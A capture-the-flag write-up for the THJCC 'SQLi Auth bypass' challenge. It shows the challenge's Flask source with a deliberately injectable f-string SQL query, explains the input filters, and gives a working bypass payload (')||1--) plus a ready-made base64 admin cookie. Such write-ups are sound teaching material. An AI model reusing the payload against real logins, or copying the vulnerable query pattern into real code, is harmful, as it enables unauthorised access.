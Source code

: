 ```yaml
---
layout: post
title:  "[THJCC]SQLi Auth bypass"
date:   2024-04-28 00:29:20 +0700
categories: ctfwriteup
---
```


### Challenge Name : SQLi Auth bypass 

<img>

• I played this THJCC CTF last weekend and thought of making a writeup for this SQLI challenge,since i been solving quite a lot of SQLI challenges recently.

• Source code for the challenge has been given and inspecting the auth.py

```
from flask import make_response, redirect
import base64, re, sqlite3, string

# Cookie & Auth
def auth(content):
    try:
        username, password = base64.b64decode(content.encode()).decode(encoding="utf8").split("@")
        # 去除所有空格
        username = "".join(username.split())
        password = "".join(password.split())

        # 過濾username中所有特殊字符
        mu = re.match(r'.*\W', username)
        if mu is None: 
            # 過濾password中所有英文字母跟等號
            cflag = False
            for w in password: 
                if (w in string.ascii_letters) or (w == "="): cflag = True
            if (cflag): return None
            else:
                conn = sqlite3.connect("user.db")
                rows = conn.execute(f"select * from user where (user='{username}') and (pass='{password}');")
                result = None
                for row in rows: result = tuple(row)
                conn.close()

                if result is None: 
                    return None
                else: 
                    return str(result[0])
        else: return None
    except: return None 
def guestGive():
    res = make_response(redirect("/"))
    res.set_cookie("role", base64.b64encode("guest@?*&*@&*#&".encode()).decode(encoding="utf8"))
    return res
```

• It sets the cookie value as guest@somespcialchars and the first value is treated as username and second value treated as password and passed to the SQL query `conn.execute(f"select * from user where (user='{username}') and (pass='{password}');")`,
If the username and password is valid,then it responds with a main.html.

```
#main.py
from flask import Flask, request, redirect, render_template
from auth import *

# Main
PORT = 10010

FLAG = "THJCC{exampleFlag}"

app = Flask(__name__)

# Routes
@app.route("/")
def index():
    cookie = request.cookies.get("role")
    if cookie is None: return guestGive()
    else:
        authCookie = auth(cookie)
        if authCookie is None: return guestGive()
        elif authCookie == "guest" or authCookie == "admin": return redirect("/flag")
        else: return guestGive()

@app.route("/flag", methods = ['GET', "POST"])
def profile():
    cookie = request.cookies.get("role")
    if cookie is None: return redirect("/")
    else:
        authCookie = auth(cookie)
        if authCookie is None: return redirect("/")
        elif authCookie == "guest": return render_template("main.html")
        elif authCookie == "admin": return FLAG + "<img src=\"https://media1.tenor.com/m/wm_jigc51u8AAAAC/fubuki-%E7%99%BD%E4%B8%8A%E3%83%95%E3%83%96%E3%82%AD.gif\" style=\"width: 100%;\" /><title>Flag</title>"
        else: return redirect("/")

if __name__ == "__main__": app.run("0.0.0.0", PORT, debug=False)
```

• We need to auth bypass as the admin to get the flag but we dont have admin password, all we know is we have SQL injection on username and password field.

• We have restriction on username and password, we can only can have alphabet characters on the username and no specialcharacters likewise we can only have specialcharacters on password and no alphabets.

```
        if mu is None: 
            # 過濾password中所有英文字母跟等號
            cflag = False
            for w in password: 
                if (w in string.ascii_letters) or (w == "="): cflag = True
            if (cflag): return None
```

• We can bypass the password field by supplying <code>` ')||1-- `</code> and changing the username to admin.

Breakdown:

') - we are closing the password query properly
|| - using OR operator
1 - 1 which will always result in true
-- - commenting out the reamining query

• Final base64 cookie <code>`YWRtaW5APyomLTwvOzwkKX5+LyUuIX17L1wpeyV+OjwhKS0jJV0oXSQtJSh9XV1fJnwufV8tOyNgXjwmJSZdPmB+Kn4oXj4rLH0vIyomJjomfCN8JntdIy8jJV4uOyUtXiV9JF0pPFtcOil+Wz5cfnsjXlsvPztgI2ApKX1eXVwqO18vLDwnKXx8MS0t`</code>

<img>